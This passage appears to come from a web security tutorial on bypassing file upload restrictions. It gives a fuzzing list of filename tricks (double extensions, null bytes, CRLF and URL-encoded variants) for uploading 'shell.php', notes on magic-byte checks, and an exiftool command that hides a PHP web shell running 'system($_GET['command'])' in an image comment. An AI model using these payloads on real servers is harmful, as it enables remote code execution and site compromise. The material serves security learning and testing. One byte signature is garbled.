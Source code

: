 - **Overcoming stripping**: Maybe the server replaces or strips `.php` from filenames, but you can try stuff like:

```text
shell.<b>p<span style="color:red;">.php</span>hp</b>
```

Putting everything in practice, to upload a <code><smart-variable variable="filename" default-value="shell"></smart-variable><smart-variable variable="extension" default-value=".php"></smart-variable></code> file, you could elaborate a list of possible bypassess and do some fuzzing:

```text
{{ filename shell }}{{ extension .php }}
{{ filename shell }}{{ extension .php } upper }
{{ filename shell }}{{ extension .php }}.......
{{ filename shell }}{{ extension .php }}%20
{{ filename shell }}{{ extension .php } url-all }
{{ filename shell }}{{ extension .php } url-all, url-all }
{{ filename shell }}{{ extension .php } url-all }{{ whitelisted-extension .jpeg }}
{{ filename shell }}{{ extension .php } url-all, url-all }{{ whitelisted-extension .jpeg }}
{{ filename shell }}{{ extension .php }}{{ whitelisted-extension .jpeg }}
{{ filename shell }}{{ extension .php }};{{ whitelisted-extension .jpeg }}
{{ filename shell }}{{ extension .php }}%00{{ whitelisted-extension .jpeg }}
{{ filename shell }}{{ extension .php }}\x00{{ whitelisted-extension .jpeg }}
{{ filename shell }}{{ extension .php }}%3b{{ whitelisted-extension .jpeg }}
{{ filename shell }}{{ extension .php }}%0d{{ whitelisted-extension .jpeg }}
{{ filename shell }}{{ extension .php }}%0a{{ whitelisted-extension .jpeg }}
{{ filename shell }}{{ extension .php }}%0d%0a{{ whitelisted-extension .jpeg }}
{{ filename shell }}{{ extension .php }}%2500{{ whitelisted-extension .jpeg }}
{{ filename shell }}{{ extension .php }}%253b{{ whitelisted-extension .jpeg }}
{{ filename shell }}{{ extension .php }}%250d{{ whitelisted-extension .jpeg }}
{{ filename shell }}{{ extension .php }}%250a{{ whitelisted-extension .jpeg }}
{{ filename shell }}{{ extension .php }}%250d%250a{{ whitelisted-extension .jpeg }}
```

### Polyglot / Magic Bytes

Instead of implicitly trusting the `Content-Type` specified in a request, more secure servers try to verify that the contents of the file actually match what is expected.
Take the following byte sequences as an example[^2]:

- **PNG**: `\x89PNG\r\n\x1a\n\0\0\0\rIHDR\0\0\x03H\0\xs0\x03[`
- **JPG**: `\xff\xd8\xff`

[^2]: Wikipedia - List of file signatrues: https://en.wikipedia.org/wiki/List_of_file_signatures

You can add them manually, but I suggest to just modify a valid image or file and add a comment with `exiftool`.
For example, lets say you want to upload some a shell embedded in the <code><smart-variable variable="original-image" default-value="rct3.png"></smart-variable></code> file; the fololowing command would generate a <code><smart-variable variable="filename" default-value="shell"></smart-variable><smart-variable variable="extension" default-value=".php"></smart-variable></code> file whith a payload inside the previous image comment:

```bash
exiftool -comment="{{ payload <?php echo 'AAAAAA'.system($_GET['command']).'AAAAAA'; ?> }}" {{ original-image rct3.png }} -o {{ filename shell }}{{ extension .php }}
```


[^1]: Port Swigger Web Security Academy: https://portswigger.net/web-security/file-upload
[^3]: Configure handlers on IIS: https://docs.microsoft.com/en-us/iis/configuration/system.webserver/handlers/#configuration-sample